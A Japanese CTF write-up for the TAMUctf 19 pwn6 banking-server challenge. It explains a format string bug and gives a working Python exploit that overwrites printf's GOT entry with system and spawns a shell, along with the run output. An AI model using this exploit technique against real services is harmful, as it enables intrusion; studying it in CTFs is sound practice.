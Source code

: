 # [pwn 500pts] pwn6 - TAMUctf 19
64ビットバイナリで、SSPが有効です。
```
$ checksec server
[*] 'server'
    Arch:       64 bits (little endian)
    NX:         NX enabled
    SSP:        SSP enabled (Canary found)
    RELRO:      Partial RELRO
    PIE:        PIE disabled
```
OpenVPN上でサービスが動いているという見たことがないタイプのpwnです。
銀行サービスのサーバーとクライアントのバイナリが渡されます。
参加時は解析する機能が多すぎて解くのをやめました。

IDAで解析していくと、`process_message`関数にFormat String Bugがあることが分かります。
不正なコマンドを送ったときにその内容をprintfでそのまま出力してしまっています。
したがって、不正なコマンドとFSBのpayloadを送れば攻撃できそうです。

方針としては1回目のFSBでprintfのGOTにPLTのsystem関数のアドレスを書き込み、2回目に'/bin/sh'をprintfに与えます。

ここで注意する必要があるのが、64ビットなので書き込み先のアドレスは後ろに持っていく必要がある点です。
先にアドレスを書くと、64ビットのアドレスにはNULLが入っているのでそこまでしか出力されず、肝心の書式(%n)が実行されません。
その点に注意してexploitを書くと次のようになります。

```python
from ptrlib import *

def send_data(data, i):
    payload = p32(len(data))
    payload += p32(i)
    payload += data
    sock.send(payload)

def send_login(username, password):
    payload = bytes([len(username)])
    payload += bytes([len(password)])
    payload += username
    payload += password
    return send_data(len(payload), payload, 0)

elf = ELF("./server")
sock = Socket("127.0.0.1", 6210)

addr = elf.got("printf")
write = 0x401a10 # system@plt

payload = b"AAA"
n = 3
p = 15 + 12
for i in range(8):
    x = (write >> (8 * i)) & 0xFF
    l = (x - n - 1) % 0x100 + 1
    payload += str2bytes("%{}c%{}$hhn".format(l, p + i))
    n += l
assert len(payload) % 8 == 0
for i in range(8):
    payload += p64(addr + i)
print(payload)

send_data(payload, 10)
send_data(b"exec <&5 >&5 2>&5; /bin/sh\x00", 10)

sock.interactive()
```

できました。
```
$ python solve.py
[+] Socket: Successfully connected to 127.0.0.1:6210
b'AAA%13c%27$hhn%10c%28$hhn%38c%29$hhn%192c%30$hhn%256c%31$hhn%256c%32$hhn%256c%33$hhn%256c%34$hhn\xd0\x00m\x00\x00\x00\x00\x00\xd1\x00m\x00\x00\x00\x00\x00\xd2\x00m\x00\x00\x00\x00\x00\xd3\x00m\x00\x00\x00\x00\x00\xd4\x00m\x00\x00\x00\x00\x00\xd5\x00m\x00\x00\x00\x00\x00\xd6\x00m\x00\x00\x00\x00\x00\xd7\x00m\x00\x00\x00\x00\x00'
[ptrlib]$ ls
Banking.db
flag.txt
pwn4
[ptrlib]$ cat flag.txt
gigem{flag}
[ptrlib]$ 
```

公式writeupによるとアカウントのパスワードを辞書攻撃してログインしてからROPするようで、FSBは非想定解だったそうです。
それはpwn問としてダメでしょ。

# 感想
FSBに気づけてれば競技中に解けただろうなー。
HopperとかアセンブリをCっぽく表示してくれるやつ使うべきなのか。
